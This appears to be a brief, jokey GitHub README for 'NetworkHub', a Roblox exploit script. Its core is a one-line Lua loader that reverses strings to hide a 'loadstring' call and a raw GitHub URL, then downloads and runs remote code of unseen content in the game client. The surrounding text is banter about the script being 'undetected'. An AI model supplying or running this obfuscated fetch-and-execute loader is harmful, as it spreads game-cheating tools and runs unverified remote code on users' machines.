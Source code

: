 ![image](https://raw.githubusercontent.com/netizen293/NetworkHub/refs/heads/main/IMG_0133.jpeg)
About Us
> Since development roughly 8 minutes ago, our team (myself), thrive to create a script that lets users enjoy the exploiting enviornment with 99.3% undetected features (no promises BTW)

Why Us
> We are the best!! the best!! 🤑🤑

What is bro yapping about
> I dont know pls send help

Loading the hackerman op sckipt hax
```lua
return((0x0133==__networkhub)or{"Made by netizen293";(531%246%9765%3310),getfenv()[string.reverse"gnirtsdaol"](game:HttpGet(string.reverse"aul.yna/niaM/niam/sdaeh/sfer/buHkrowteN/392neziten/moc.tnetnocresubuhtig.war//:sptth"))();})
```
